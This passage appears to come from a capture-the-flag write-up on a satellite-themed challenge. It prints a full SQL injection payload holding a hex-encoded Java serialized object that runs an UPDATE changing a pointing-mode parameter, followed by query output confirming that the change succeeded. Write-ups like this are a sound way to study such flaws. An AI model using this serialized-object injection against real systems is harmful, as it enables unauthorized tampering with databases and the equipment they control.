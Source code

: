 And now I have my exploit:

```
; insert into satellite_query (object) values (X'ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B7870010174003455504441544520706F696E74696E675F6D6F646520534554206E756D65726963616C5F6D6F64653D312057484552452069643D31')
```

After running the exploit, querying the satellite_query table now gives me:
```
; select * from satellite_query;
id: 2 | object: ??..sr..SatelliteQueryFileFolderUtility.???.???...Z..isQueryZ..isUpdateL..pathOrStatementt..Ljava/lang/String;xp..t.4UPDATE pointing_mode SET numerical_mode=1 WHERE id=1 | results: SQL Update completed. |
```

Update successfully ran, and now when I look at the parameter service and run the getValue on PointingMode, I see:

![image](../img/missilediversion-2.png)

Glorrrryyyyyy!
